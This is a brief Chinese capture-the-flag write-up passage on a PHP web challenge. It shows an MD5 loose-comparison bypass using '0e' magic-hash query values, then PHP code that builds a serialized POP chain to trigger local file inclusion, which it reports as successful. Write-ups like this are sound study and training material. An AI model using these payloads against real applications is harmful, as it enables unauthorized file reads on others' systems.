 弱比较简单，网上随便找两个md5后是0e开头的就可以或者两个数组绕过，因为数组无法被MD5

?a=QNKCDZO&b=240610708


首先构造pop
```php
<?php
class me7eorite{
    var $safe='a';
    var $class;
}

class UNCTF{
    public $pass='a';
    public $name;
    public $email='a';
}
$a=new UNCTF;
$a->name=new me7eorite;
$a->name->class=new me7eorite;
$a->name->class->safe='1.txt';
echo serialize($a);
?>
```

本地包含测试

![](./i/7.png)

本地包含成功
